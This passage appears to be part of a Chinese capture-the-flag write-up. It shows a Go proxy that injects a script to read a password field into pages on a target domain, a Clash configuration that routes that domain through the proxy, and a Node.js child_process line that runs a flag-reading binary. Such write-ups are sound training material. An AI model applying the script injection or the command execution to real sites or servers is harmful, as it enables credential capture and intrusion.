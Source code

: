 ```go
	wr.Write([]byte("原神启动<p id='show'></p><input id='primogem_code' type='password' /><script>var x=document.getElementById('primogem_code'); var y=document.getElementById('show'); setTimeout(() => {y.innerHTML = x.value}, 3000);</script>"))
}

func main() {
	var addr = flag.String("addr", ":19198", "The addr of the application.")
	flag.Parse()

	handler := &proxy{}

	log.Println("Starting proxy server on", *addr)
	if err := http.ListenAndServe(*addr, handler); err != nil {
		log.Fatal("ListenAndServe:", err)
	}
}
```

And then:

```yaml
port: 7890
socks-port: 7891
allow-lan: true
mode: Rule
log-level: info
external-controller: :9090
proxies:
  - name: a
    type: http
    server: aoi.taoky.moe
    port: "19198"
    skip-cert-verify: true
proxy-groups:
  - name: bb
    type: select
    proxies:
      - a
rules:
  - MATCH,a
  - DOMAIN-SUFFIX,pku.edu.cn,a
```

然后访问 ys.pku.edu.cn 即可。上面代码忘了加 html encoding，不过问题不大，反正拿到 flag 了。

第三问已知可以这么读取程序输出：

```javascript
require('child_process').execSync('/app/readflag').toString()
```

于是规约到第一问，Q.E.D.

## 汉化绿色版免费下载

